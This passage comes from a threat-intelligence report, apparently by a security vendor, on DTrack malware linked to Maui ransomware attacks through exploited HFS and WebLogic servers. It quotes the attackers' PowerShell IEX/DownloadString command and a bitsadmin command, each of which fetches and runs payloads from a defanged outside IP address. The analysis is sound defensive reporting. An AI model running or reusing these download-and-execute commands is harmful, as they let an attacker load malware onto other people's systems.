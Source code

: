 
Link time
2020-09-16 14:16:21


File type
PE32 executable (GUI) Intel 80386, for MS Windows


Compiler
VS2008 build 21022


File size
136 KB


File name
%appdata%\microsoft\mmc\dwem.cert



This DTrack module is very similar to the EventTracKer module of DTrack, which was previously reported to our Threat Intelligence customers. In one victim system, we discovered that a well-known simple HTTP server, HFS7, had deployed the malware above. After an unknown exploit was used on a vulnerable HFS server and “whoami” was executed, the Powershell command below was executed to fetch an additional Powershell script from the remote server:





C:\windows\system32\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('hxxp://145.232.235[.]222/usr/users/mini.ps1')




1

C:\windows\system32\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('hxxp://145.232.235[.]222/usr/users/mini.ps1')




The mini.ps1 script is responsible for downloading and executing the above DTrack malware via bitsadmin.exe:





bitsadmin.exe /transfer myJob /download /priority high
"hxxp://145.232.235[.]222/usr/users/dwem.cert" "%appdata%\microsoft\mmc\dwem.cert"




12

bitsadmin.exe /transfer myJob /download /priority high"hxxp://145.232.235[.]222/usr/users/dwem.cert" "%appdata%\microsoft\mmc\dwem.cert"




The other victim operated a vulnerable Weblogic server. According to our telemetry, the actor compromised this server via the CVE-2017-10271 exploit. We saw Andariel abuse identical exploits and compromise WebLogic servers in mid-2019, and previously reported this activity to our Threat Intelligence customers. In this case, the exploited server executes the Powershell command to fetch the additional script. The fetched script is capable of downloading a Powershell script from the server we mentioned above (hxxp://145.232.235[.]222/usr/users/mini.ps1). Therefore, we can summarize that the actor abused vulnerable Internet-facing services to deploy their malware at least until the end of 2020.
Victims
The July 2022 CISA alert noted that the healthcare and public health sectors had been targeted with the Maui ransomware within the US. However, based on our research, we believe this operation does not target specific industries and that its reach is global. We can confirm that the Japanese housing company was targeted with the Maui ransomware on April 15, 2021. Also, victims from India, Vietnam, and Russia were infected within a similar timeframe by the same DTrack malware as used in the Japanese Maui incident: from the end of 2020 to early 2021.